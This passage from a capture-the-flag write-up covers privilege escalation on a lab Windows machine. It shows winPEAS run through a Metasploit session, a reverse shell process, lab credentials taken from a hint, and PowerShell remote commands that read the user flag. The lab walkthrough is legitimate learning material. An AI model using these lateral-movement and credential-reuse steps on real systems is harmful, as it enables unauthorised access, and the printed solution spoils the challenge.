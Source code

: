 ![msf_result](images/Acute10.png)

### Phase 3: Privilege Escalation (User)

Now we will donload winpeas and run it:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250701-bdcab634/winPEASx64.exe
```

Then in msfconsole session:

```bash
upload winPEASx64.exe
shell
.\winPEASx64.exe
```

Nothing useful was found so here I got stuck but I checked machine info I understood that my machine has bugged and no other session was started on my box so I'll restart it and new ip is: 10.129.178.152. I will change ip and repeat steps. Still no another seesion in Winpeas RDP session stated Not found I used ps to monitor processes to find with the same user but there were none only mine revshell.exe. After 2 hours and checking every 15 minutes I decided to look for a hint to go futher so what I was supposed to do was: found a proccess ( interective shell as edavies ) then migrate and use screenshare to find these creds:

```
imonks:W3_4R3_th3_f0rce.
```

Now I will use the same commands that I found that edavies was supposed to type:

```PS
$passwd = ConvertTo-SecureString "W3_4R3_th3_f0rce." -AsPlainText -force
$cred = New-Object System.Management.Automation.PSCredential ("acute\imonks", $passwd)
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock {whoami} -credential $cred
```

Now we will read user flag and ps1 script in imonks's Desktop directory:

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {
    Get-Content C:\Users\imonks\Desktop\user.txt 
} -Credential $cred

Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock {
    Get-Content C:\Users\imonks\Desktop\wm.ps1 
} -Credential $cred
```
